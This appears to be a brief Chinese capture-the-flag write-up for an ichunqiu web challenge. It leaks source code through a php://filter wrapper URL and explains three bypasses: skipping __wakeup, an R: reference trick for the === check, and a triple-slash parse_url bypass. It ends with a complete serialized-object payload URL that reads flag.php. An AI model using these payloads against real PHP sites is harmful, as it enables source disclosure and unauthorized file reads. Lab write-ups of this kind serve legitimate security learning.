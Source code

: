 http://de4acedff28d48cea2954306dabe3d3276d73be89c7c4e2d.changame.ichunqiu.com/index.php?file=php://filter/convert.base64-encode/resource=hint.php

伪协议拿到源码

Index.php里面得知hint.php

继续拿hint源码

发现构成反序列化的过程中有三个问题：

1.wakeup里面的属性清空：使用不正确的序列化对象可以避免wakeup的执行

2.getFlag函数里面的===，使用指针R，让token和token_flag始终相等

3.index里面的parse_url后的正则，使用///绕过

最终payload：

```
http://e5095d0258044ac28d26444770f6c4a04f5be24e59c54a3e.changame.ichunqiu.com///index.php?file=hint.php\&payload=O:6:%22Handle%22:2:{s:14:%22%00Handle%00handle%22;O:4:%22Flag%22:3:{s:4:%22file%22;s:8:%22flag.php%22;s:5:%22token%22;s:32:%2251311013e51adebc3c34d2cc591fefee%22;s:10:%22token_flag%22;R:4;}}
```


